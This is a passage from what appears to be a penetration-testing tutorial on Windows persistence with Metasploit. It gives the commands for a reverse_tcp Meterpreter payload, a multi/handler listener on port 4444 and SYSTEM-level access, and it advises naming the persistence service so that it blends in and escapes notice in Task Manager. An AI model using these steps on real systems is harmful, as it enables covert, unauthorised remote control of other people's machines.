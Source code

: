In this case, we can specify a `SERVICE_NAME`. You may want to make the service look as legitimate as possible. Because users on the system may be able to detect your service through the Task Manager. So you can probably specify a service name that blends in with the rest of the Windows Services.

```
set SESSION 1
```

We also can leave the LPORT option as port 4444. Because, in this case, it's not going to be executing the payload or giving us a Meterpreter session. It's going to allow us to do that once we setup our handler and we terminate our current Meterpreter session just to show you that it will work.

```
exploit
[-] Only support for windows meterpreter/shell reversed stage payload.
```

We will set the payload here to the 32-bit Meterpreter payload. Because we can always upgrade our Meterpreter session to a 64-bit session.

```
set payload windows/meterpreter/reverse_tcp
exploit
```

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Terminate my session now.

```
meterpreter > exit
```

List out my previous sessions. I'm going to kill all of the sessions.

```
sessions
sessions -K
```

And now, you can see that we don't have access at all.

The way we can get access or gain back control of the target system and obtain a Meterpreter session is by using `multi/handler`.

```
use multi/handler
```

Set the payload to the payload we specified for the persistence module.

```
set payload windows/meterpreter/reverse_tcp
show options
```

Make sure we configure the LHOST and the LPORT options to the values that we had set up.

Leave LPORT as 4444, because that is what we specified for the persistence module payload.
